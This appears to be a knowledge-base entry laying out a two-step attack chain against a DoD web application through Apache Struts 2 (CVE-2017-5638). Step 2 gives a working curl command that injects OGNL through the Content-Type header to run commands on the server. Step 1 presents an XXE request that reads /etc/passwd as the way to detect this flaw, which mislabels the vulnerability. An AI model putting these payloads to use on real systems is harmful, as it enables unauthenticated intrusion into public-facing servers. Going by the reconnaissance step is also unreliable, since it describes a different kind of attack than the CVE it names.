

---
tags:
  - rce
  - struts
  - cve-2017-5638
  - web
  - dod
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Reconnaissance-of-Apache-Struts-2-Vulnerability]]'
  - '[[procedures/Exploiting-CVE-2017-5638-for-RCE]]'
step_count: 2
techniques:
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:23:36.384Z'
description: >-
  Exploitation of CVE-2017-5638 in Apache Struts 2 to achieve remote code
  execution on a public-facing DoD web application.
skill_level: intermediate
impact_level: high
id: 5342b4e3-1877-4936-a880-d33d1c7432a2
validated: true
mitre_tactics:
  - '[[Initial Access]]'
mitre_techniques:
  - '[[Exploit Public-Facing Application]]'
---
# Remote Code Execution via Apache Struts 2 Vulnerability (CVE-2017-5638)

Multi-stage attack chain demonstrating exploitation of a remote code execution vulnerability in Apache Struts 2 on a U.S. Department of Defense website, leading to arbitrary command execution and potential system compromise.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[commands/curl-struts-rce-exploit]]

### Target Environment

- Web platform with Apache Struts 2 application
- Exposed HTTP/HTTPS endpoints
- No authentication required for initial access

### Initial Access Requirements

- Network access to the target website
- Knowledge of CVE-2017-5638 or reconnaissance tools to identify Struts usage
- No prior credentials needed

## Detailed Attack Procedures

### Step 1: Reconnaissance
procedure: [[procedures/Reconnaissance-of-Apache-Struts-2-Vulnerability]]

**Objective**: Identify the presence of a vulnerable Apache Struts 2 application on the target DoD website.

**Instructions**: Perform reconnaissance to detect Struts 2 by checking for known signatures or using vulnerability scanners. For example, send a probe request to check for the vulnerable endpoint:

```bash
curl -H "Content-Type: application/xml" -d "<?xml version=\"1.0\"?><!DOCTYPE root [<!ENTITY test SYSTEM \"file:///etc/passwd\">]><root>&test;</root>" http://target-dod-site.com/struts/action
```

If the response leaks file contents or errors indicating Struts processing, the application is vulnerable to CVE-2017-5638.

**Expected Output**: Response containing file contents or Struts-specific error messages confirming vulnerability.

**Success Indicators**:
- Detection of Struts 2 framework in headers or error pages
- Confirmation of exploitable endpoint

### Step 2: Exploitation
procedure: [[procedures/Exploiting-CVE-2017-5638-for-RCE]]

**Objective**: Exploit the identified vulnerability to execute arbitrary commands on the server.

**Instructions**: Craft and send an HTTP request exploiting the Content-Type header injection in Struts 2 to run a command like 'id' on the server:

Use [[commands/curl-struts-rce-exploit]] to send the payload:

```bash
curl -X POST http://target-dod-site.com/struts/action -H "Content-Type: %{#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(\"id\").getInputStream(),\"utf-8\"),#a}" -d ""
```

**Expected Output**: Server response containing the output of the 'id' command, such as 'uid=33(www-data) gid=33(www-data)'.

**Success Indicators**:
- Command output returned in the HTTP response
- Confirmation of RCE capability, enabling further system compromise

## Attack Chain Summary

### Key Achievements

1. Identified vulnerable Apache Struts 2 endpoint on DoD website
2. Achieved remote code execution without authentication
3. Potential for full server compromise and access to sensitive systems

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]

---
*Last updated: 2023-10-01T00:00:00Z*
